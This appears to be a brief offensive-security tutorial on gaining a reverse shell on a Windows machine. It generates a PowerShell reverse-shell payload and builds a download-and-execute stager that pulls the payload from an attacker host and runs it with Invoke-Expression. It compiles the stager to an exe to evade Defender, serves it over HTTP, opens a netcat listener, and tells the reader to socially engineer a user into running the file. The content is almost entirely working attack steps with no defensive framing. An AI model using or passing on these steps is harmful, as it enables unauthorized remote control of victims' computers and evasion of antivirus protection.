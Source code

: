 Reverse shell code.
```Shell
git clone https://github.com/gh0x0st/Get-ReverseShell.git
```

Open PowerShell note pwsh is Linux PowerShell.  
```Powershell
pwsh 
import-module ./get-reverseshell.ps1
Get-ReverseShell -ip x.x.x.x -Port xxxx
```

Copy the generated code.

```Shell
nano payload.ps1
```

paste in code and save

But Defender will still pick up this script as malicious. 
So we will create a second script and turn it into a exe that will download our payload.

```Shell
scripturl = "http://<ip address of attack box>/payload.ps1"
scriptbytes = Invoke-WebRequest -Uri $scripturl -UseBasicParsing -method Get -MaximumRedirection 0
scriptcontent = [System.Text.Encoding]::UTF8.GetString($scriptbytes.content)
Invoke-Expression -Command $scriptcontent
```

Create exe from powershell. 
This must be done in a windows machine.

```PowerShell
Install-Module -Name ps2exe
win-ps2exe
```

Fill in GUI form and save exe.
Copy exe back to Kali
Upload exe to target.
```Shell
python -m http.server
```

Create a listner.
```Shell
nc -nvlp <portnumber>
```

Social Engineer a user into running the exe.

